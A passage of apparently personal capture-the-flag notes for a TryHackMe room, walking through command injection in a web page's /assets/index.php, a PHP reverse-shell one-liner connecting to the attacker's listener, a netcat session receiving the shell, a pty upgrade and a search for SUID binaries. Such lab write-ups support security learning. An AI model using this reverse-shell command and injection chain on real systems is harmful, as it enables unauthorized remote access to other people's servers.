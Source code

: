 -> Found /assets/index.php 
-> Testing for command injection:

![](attachments/Pasted%20image%2020250624133918.png)

```┌──(kali㉿kali)-[~/Downloads/THM/UAHigh]
└─$ echo "L3Zhci93d3cvaHRtbC9hc3NldHMK" | base64 -d
/var/www/html/assets
```

-> Webpage seems to be vulnerable to command injection 
-> Trying to get a reverse connection using:

```
php -r '$sock=fsockopen("10.8.35.149",4433); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'
```

```┌──(kali㉿kali)-[~/Downloads/THM/UAHigh]
└─$ nc -lvnp 4433
listening on [any] 4433 ...
connect to [10.8.35.149] from (UNKNOWN) [10.10.119.101] 48296
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-119-101:/var/www/html/assets$
```

-> Success!
-> Finding useful files:

```
www-data@ip-10-10-119-101:/home/deku$ find / -user root -perm /4000 2>/dev/null
<ome/deku$ find / -user root -perm /4000 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
```